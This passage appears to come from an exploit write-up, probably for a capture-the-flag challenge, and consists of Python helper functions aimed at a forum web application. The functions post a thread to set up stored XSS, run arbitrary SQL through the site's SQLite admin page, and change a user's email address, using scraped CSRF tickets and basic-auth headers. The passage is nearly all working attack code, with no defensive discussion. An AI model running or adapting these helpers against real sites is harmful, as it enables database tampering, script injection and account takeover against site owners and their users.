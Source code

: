 post a new thread and get the edit page path to trigger XSS

```python
def post_thread(title, content):
    url = 'http://' + host + '/!post/'
    headers = { 'Authorization': f'Basic {basic_auth}' }
    r = sess.get(url, headers=headers)
    html = BeautifulSoup(r.text, features='html5lib')
    ticket = html.find('input', {'name':'ticket'})['value']
    data = {
        'ticket': ticket,
        'submit': '',
        'tabselector': '',
        'title': title,
        'tags': '',
        'invited': '',
        'format': '',
        'source': content,
    }
    files = { 'attach': '' }
    r = sess.post(url, data=data, files=files, headers=headers, allow_redirects=False)
    path = r.headers['Location'].replace('#', '') + '/!edit'
    return path
```

execute sql statements

```python
def exec_sql(sql):
    url = 'http://' + host + '/!sqlite/'
    headers = { 'Authorization': f'Basic {basic_auth}' }
    r = sess.get(url, headers=headers)
    html = BeautifulSoup(r.text, features='html5lib')
    ticket = html.find('input', {'name':'ticket'})['value']
    data = { 'source': sql, 'ticket': ticket }
    r = sess.post(url, data=data, headers=headers)
```

change email

```python
def change_email(username, password):
    url = 'http://' + host + '/!userinfo/' + username
    headers = { 'Authorization': f'Basic {basic_auth}' }
    r = sess.get(url, headers=headers)
    html = BeautifulSoup(r.text, features='html5lib')
    ticket = html.find('input', {'name':'ticket'})['value']
    url = 'http://' + host + '/!changemail'
    data = {
        'password': password,
        'email': 'abcd@qq.com',
        'ticket': ticket,
        'changeemail': 'Change email',
    }
    r = sess.post(url, data=data, headers=headers, allow_redirects=False)
    print(r.headers)
```
